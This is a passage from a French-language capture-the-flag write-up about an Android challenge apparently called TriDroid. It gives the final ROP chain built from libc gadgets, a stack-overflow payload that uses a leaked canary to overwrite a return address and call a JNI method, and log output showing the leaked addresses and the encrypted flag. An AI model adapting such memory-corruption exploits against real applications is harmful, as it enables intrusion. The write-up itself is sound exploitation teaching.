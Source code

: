 La ROP chain finale est la suivante :

```javascript
// 0x0000000000042e58 : pop rcx ; ret
pop_rcx = libc_base + 0x42e58
// 0x0000000000046175 : pop rdx ; ret
pop_rdx = libc_base + 0x46175
// 0x0000000000042c92 : pop rdi ; ret
pop_rdi = libc_base + 0x42c92
// 0x0000000000042d38 : pop rsi ; ret
pop_rsi = libc_base + 0x42d38
// 0x0000000000042af0 : ret
ret = libc_base + 0x42af0

rop = pack64(pop_rcx)
rop += pack64(libc_base + 0xD9510) // ()V
rop += pack64(pop_rdx)
rop += pack64(libc_base + 0xD9530) // showFlag
rop += pack64(pop_rsi)
rop += pack64(this_ptr)
rop += pack64(pop_rdi)
rop += pack64(JNI_env)
rop += pack64(ret) // for stack alignment
rop += pack64(invoke_addr)
```

Pour déclencher la ROP chain, il suffit d'écraser l'adresse de retour de la fonction `modify_element` :

```javascript
// overwrite RIP, after canary + EBP
modify("41414141414141414141414141414141414141414141414141414141414141414141414141414141"+canary+"4242424242424242"+rop);
```

En testant le payload final localement on constate que le faux flag chiffré est bien écrit dans les logs :

```
08-03 21:10:12.950 11858 11858 I chromium: [INFO:CONSOLE(8)] "password : 80965b49-ba84-4340-ab52-26bce809c2a1", source:  (8)
08-03 21:10:13.017 11858 11858 I chromium: [INFO:CONSOLE(67)] "Base address : 785fd1066000", source:  (67)
08-03 21:10:13.031 11858 11858 I chromium: [INFO:CONSOLE(76)] "Canary : f39bbcd81de1a225", source:  (76)
08-03 21:10:13.031 11858 11858 I chromium: [INFO:CONSOLE(80)] "invokeJavaMethod address : 785fd1066fa0", source:  (80)
08-03 21:10:13.050 11858 11858 I chromium: [INFO:CONSOLE(86)] "Libc base address : 7862bccd2000", source:  (86)
08-03 21:10:13.129 11858 11858 I chromium: [INFO:CONSOLE(100)] "RBP : 785fce154c30", source:  (100)
08-03 21:10:13.193 11858 11858 I chromium: [INFO:CONSOLE(110)] "JNI_env : 7860e95135f0", source:  (110)
08-03 21:10:13.200 11858 11858 I chromium: [INFO:CONSOLE(111)] "this_ptr : 785fce154c54", source:  (111)
...
08-03 21:10:13.201 11858 11954 D TriDroid: Flag: 66McrCEanCiGETTs3N/lOw==
```
